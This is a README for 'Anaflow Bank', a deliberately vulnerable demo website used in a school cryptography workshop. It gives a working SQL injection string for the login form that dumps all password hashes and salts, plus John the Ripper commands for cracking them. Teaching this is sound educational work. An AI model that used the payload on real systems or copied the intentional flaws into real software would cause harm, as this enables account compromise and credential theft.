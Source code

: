 Anaflow Bank (Insecure Website)
-------------------------------

This website is a demonstration in a cryptography workshop at Independence 
High School and Stanford Splash, run by Andy Chen and Nick Hirning. It is 
meant to serve as a simplified model of how password hashing and SQL injection 
can work. The code creates a dummy website "Anaflow Bank" whose data can be 
compromised with a SQL injection.


Get Started
-----------

As a prerequisite, make sure you have web.py (version 0.3) and SQLite 
capabilities. Begin by creating the database of user accounts:

sqlite3 BankAccount.db < create_accounts.sql

Then, to run the website, execute:

python anaflow_bank.py [optional port number, default is 8080]


Demonstration Overview
----------------------

In the demonstration, we perform an SQL injection via the login form. We set
the username to be:

' OR 1=1 UNION SELECT GROUP_CONCAT(Username || ' : ' || PasswordHash || ' : ' || Salt, '  ||  ') AS Amount FROM BankAccount WHERE '1' = '1

(The password can be any string.) This allows us to see all of the users' 
salts and password hashes, which are SHA-1 for this purpose. We then use 
John the Ripper (JTR) to expose any weak passwords. Despite each account 
having its own salt, JTR can crack salted SHA-1 hashes in a single file.
To do so, create a blank password file, and format each username/salt/hash 
combination on each line (without the brackets).

In the MacOS version of John 1.7.9-jumbo-7 (see 
http://openwall.info/wiki/john/custom-builds#Compiled-for-Mac-OS-X), 
format each line of the password file as:

[username]:$SHA1p$[salt]$[hash]

For example:

admin:$SHA1p$*Utf&+s5$317fe16a5f409e871b21c3460a75dab8dc906767

Then, run JTR to recover some of the passwords. 

./john --format=sha1-gen [password file]

./john --show [password file] 


For the Windows version of John 1.7.9-jumbo-7-Win-32 (see 
http://openwall.info/wiki/john/custom-builds#Compiled-for-Windows).
format each line of the password file as:

[username]:$dynamic_25$[hash]$[salt]

For example:

admin:$dynamic_25$317fe16a5f409e871b21c3460a75dab8dc906767$*Utf&+s5

Then, run JTR to recover some of the passwords. 

john [password file]

john --show [password file] 


Disclaimer
----------

Do NOT use this code for any application meant to be cryptographically secure.
We intentionally left this system vulnerable to attack. Major flaws include:

- SQL injection (an adversary can display the table of user accounts)
- Malfunctioning SQL queries with certain usernames (generalization of the 
	first flaw)
- SHA-1 hashing instead of slow hashing, such as bcrypt (though for large 
	user databases, this could require client-side hashing. However, an 
	attacker who has stolen the table of users and password hashes can then 
	send a hash directly to the server and successfully login.)
- Lack of security checks, mainly in the Python web.py backend
